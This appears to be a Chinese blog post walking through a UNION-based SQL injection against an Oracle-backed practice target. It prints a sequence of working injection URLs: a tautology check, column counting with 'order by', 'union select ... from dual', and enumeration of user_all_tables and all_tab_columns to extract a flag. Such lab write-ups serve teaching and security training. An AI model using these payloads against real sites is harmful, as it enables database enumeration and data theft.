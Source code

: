 ```yaml
---
title: "Oracle 联合注入"
date: 2024-02-02
description: "靶场演示"
tags: ["sql 注入","后端漏洞"]
featured_image: ""
# images is optional, but needed for showing Twitter Card
images: []
categories: "sec"
comment: false
draft: false
---
```


靶场界面如下。

![sqli2](/images/sqli1/sqli2-0.png)

我们先确认一下参数 id 处存在注入点。

    http://111.9.41.91:53109/?id=1' or '1'='1

![sqli2](/images/sqli1/sqli2-1.png)

当输入 order by 6 时报错，而 order by 5 不报错，确认字段数为 5。

    http://111.9.41.91:53109/?id=1' order by 6 --+

![sqli2](/images/sqli1/sqli2-2.png)

我们现在就可以用联合查询进行注入了。这里需要注意 oracle 的语法，from dual 是占位置用的，因为 oracle 的语句必须包含表名；我们使用 null 而不是 12345 是因为数据类型未知。

先确认一下没有报错。

    http://111.9.41.91:53109/?id=1' union select null,null,null,null,null from dual --+

然后确认回显点的数据类型，我们只需要一个回显点就够了。

    http://111.9.41.91:53109/?id=1' union select 1,'a',null,null,null from dual --+

![sqli2](/images/sqli1/sqli2-3.png)

现在我们使用 oracle 的自带库。

    http://111.9.41.91:53109/?id=1' union select 1,table_name,null,null,null from user_all_tables --+

![sqli2](/images/sqli1/sqli2-4.png)

我们找到了 flag 的表，进一步查询字段。

    http://111.9.41.91:53109/?id=1' union select 1,column_name,null,null,null from all_tab_columns where table_name='UNION_FLAG' --+

![sqli2](/images/sqli1/sqli2-5.png)

至此我们就找到了 flag。

    http://111.9.41.91:53109/?id=1' union select 1,FLAG,null,null,null from UNION_FLAG --+

![sqli2](/images/sqli1/sqli2-6.png)

